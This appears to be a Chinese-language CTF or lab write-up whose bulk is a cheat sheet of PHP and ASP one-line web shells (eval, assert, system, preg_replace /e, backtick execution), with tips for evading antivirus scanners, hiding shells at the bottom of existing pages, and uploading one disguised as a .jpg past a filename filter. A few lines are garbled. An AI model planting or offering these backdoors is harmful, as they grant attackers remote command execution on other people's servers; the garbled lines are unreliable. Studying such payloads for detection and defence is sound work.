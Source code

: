 ```php
$array1=array($cmd);
$func =$_GET['func'];
array_filter($array1,$func);
?>

<?php usort($_GET,'asse'.'rt');?> php环境>=<5.6才能用
<?php usort(...$_GET);?>  php环境>=5.6才能用
<?php eval($_POST1);?> 
<?php if(isset($_POST['c'])){eval($_POST['c']);}?> 
<?php system($_REQUEST1);?> 
<?php ($_=@$_GET1).@$_($_POST1)?> 
<?php eval_r($_POST1)?> 
<?php @eval_r($_POST1)?>//容错代码 
<?php assert($_POST1);?>//使用Lanker一句话客户端的专家模式执行相关的PHP语句 
<?$_POST['c']($_POST['cc']);?> 
<?$_POST['c']($_POST['cc'],$_POST['cc'])?> 
<?php @preg_replace("/[email]/e",$_POST['h'],"error");?>/*使用这个后,使用菜刀一句话客户端在配置连接的时候在"配置"一栏输入*/:<O>h=@eval_r($_POST1);</O> 
<?php echo `$_GET['r']` ?> 

<script language="php">@eval_r($_POST[sb])</script> //绕过<?限制的一句话

<?php (])?>   上面这句是防杀防扫的！网上很少人用！可以插在网页任何ASP文件的最底部不会出错，比如 index.asp里面也是可以的！

<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用
```

2. 上传一句话木马,但是这里需要上传的是.jpg文件，因为根据提示和抓包的内容可以推测这里有文件名的限制

```php
<?php @eval($_POST['shell']);?>
```

![alt text](images/image.png)

